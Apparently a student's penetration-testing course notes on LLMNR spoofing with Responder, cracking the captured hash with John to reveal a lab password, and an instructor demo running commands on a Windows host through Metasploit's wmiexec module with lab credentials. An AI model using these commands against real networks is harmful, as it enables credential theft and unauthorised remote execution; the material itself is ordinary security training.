 Responder 
sudo responder -I eth1 -v 
- repsonder respond to broadcast traffic 
	- Listening for events 
		- Listening for 
		- ![[17.1.0.2.jpg]]
![[hashword 2.jpg]]
- This is a password hash 
We want to copy and paste the hash in a nano called responder From pparker -> 0 (everything after :)

![[JohnLLMNR spoofing.jpg]]
- Created nano called responder.txt, inside the txt file, we inputed the hash from above 
- John the responder.txt and we can see the password;
	- pparker:Spring2021

Research honeynets 

___
**Windows Exploitation and WMI**
**Window Exploitation**
- Compromise a windows machine, we will exploit any vulnerable services on the system and leverage legitimate tools and services for windows 

**WMI**
**Windows Management Instrumentation (WMI)**: Microsoft tool created with the intention of remotely administering window machine 
- Similar to how most Linux machines are managed over SSH, windows machines can be managed remotely via WMI 
- WMI operates over RPC, which is port 135
	- WMI operate pm port 135, also used for communication for AD, a port scan against the Windows machine does not show the service WMI on port 135, as WMI simply leverages the RPC protocol on the port for communications 
- WMI is a default installed tool on Windows 

____
Instructor Demo: WMI

msfconsole 
use auxiliary/scanner/smb/impacket/wmiexec
options
- command
	- set COMMAND whoami
- set smbdomain 
	- Megacorpone
- Rhosts
	- set RHOSTS 172.22.117.20
- smbuser
	- set smbuser tstark
- smbpass
	- Password!
![[whoami.jpg]]
